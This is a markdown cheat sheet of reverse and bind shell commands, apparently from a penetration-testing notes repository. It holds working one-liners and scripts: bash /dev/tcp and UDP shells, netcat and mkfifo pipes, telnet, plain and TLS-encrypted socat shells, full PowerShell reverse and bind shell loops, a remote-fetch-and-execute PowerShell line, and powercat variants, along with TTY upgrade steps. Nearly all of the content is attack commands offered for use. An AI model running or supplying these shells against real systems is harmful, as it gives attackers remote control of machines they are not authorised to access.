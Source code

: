 ## Linux fully interactive tty

```bash
python -c 'import pty; pty.spawn("/bin/bash")' || python3 -c 'import pty; pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo
fg
reset
export SHELL=/bin/bash && export TERM=xterm-256color
# open up a new terminal and run the below to get the stty size command to paste
size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"
```

## Bash: normal shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1
```
## Bash: non-blocking shell
```bash
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1 &
```
## Bash: using `exec` 
```bash
exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done
```
## Bash/Netcat:
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```
## Bash: mkfifo:
```bash
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe
```
## Bash: mknod:
```bash
rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
## Bash: UDP
```bash
sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1
```
## Telnet
```bash
rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe
```
---

## socat: reverse shell (with forking and address reuse)
### on attacker
```bash
socat -d -d TCP4-LISTEN:<LPORT>,reuseaddr,fork STDOUT
```
### on victim
```bash
socat TCP4:<LHOST>:<LPORT> EXEC:/bin/bash
```
**OR**
```bash
nc -nv <LHOST> <LPORT> -e /bin/bash
```

## socat: encrypted reverse shell (with forking and address reuse)
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on attacker machine, listen on a port of your choice
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork STDOUT
```
### step #4: on the victim, send back a bash shell
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0, EXEC:/bin/bash
```

---

## Powershell reverse shell
```powershell
$lhost = '<LHOST>'
$lport = <LPORT>
$client = New-Object System.Net.Sockets.TCPClient($lhost,$lport);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush();
}
$client.Close();
```

## Powershell bind shell
```
$lport = <LPORT>
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$lport)
$listener.start()
$client = $listener.AcceptTcpClient()
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
}
$client.Close()
$listener.Stop()
```

## Windows better tty using `rlwrap`
1. install rlwrap using
```bash
apt install rlwrap
```
2. using rlwrap before your standard listener
```bash
rlwrap nc -lvnp <LPORT>
```

## Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
### on attacker machine:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>
```
### on victim machine:
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>
```

## Powercat reverse shell
```shell
powercat -c <LHOST> -p <LPORT> -e cmd.exe
powercat -c <LHOST> -p <LPORT> -e powershell.exe
```

## Powercat bind shell
```shell
powercat -l -p <LPORT> -e cmd.exe
powercat -l -p <LPORT> -e powershell.exe
```

## Powercat encoded reverse shell
```shell
powershell -E (powercat -c <LHOST> -p <LPORT> -e powershell.exe -ge)
```

## Powercat encoded bind shell
```shell
powershell -E (powercat -l -p <LPORT> -e powershell.exe -ge)
```